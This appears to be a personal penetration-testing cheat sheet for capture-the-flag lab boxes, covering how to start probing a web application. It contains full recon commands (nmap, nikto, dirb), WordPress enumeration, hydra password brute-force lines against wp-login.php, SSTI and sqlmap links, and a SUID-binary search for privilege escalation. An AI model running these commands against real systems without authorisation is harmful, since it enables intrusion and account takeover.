 # How to start
How do you start probing a web application?

## Data gathering
- mkdir boxname (or something relevant to the network/system you are attacking)
- might want to create a text file with important information

## On a LAN
- netdiscover -i eth0 -r 10.0.0.0/24 > ./boxname/lan.txt

## Recon
- nmap -A -T4 -n -p- 10.0.0.176 > ./boxname/nmap.txt
- enable the burp suite proxy, turn intercept off
- visit the website, get familiar with it if you are not
- right click and review source code to see if anything is interresting
- nikto -h http://10.0.0.176 > ./boxname/nikto.txt
- review nikto report
- check locations in robot.txt
- wafw00f http://10.0.0.176 > ./boxname/app_firewall.txt
- enumerate directories (dirb, dirbuster, autorecon, burp suite, gobuster)
 dirb http://10.0.0.176 > dirscan.txt
 dirb http://10.0.0.176 /usr/share/dirb/wordlists/big.txt > dirscan_long.txt
 dirbuster -l /usr/share/wordlists/dirbuster/<pick one of the files>
- try to enumerate users and maybe brute force passwords, but that takes time

## Wordpress
- wpscan --help (shows all the example needed)
  not a bad idea to start by enumerating users
- try to brute force password if possible 

 hydra -L fsocity.dic -p test 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password" -t 30
    
SSTI- https://github.com/epinna/tplmap/tree/master/burp_extension

    
## SQL injection
* https://suip.biz/?act=sqlmap  -- online sqlmap scanner
* 

 
 
 
 find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \;
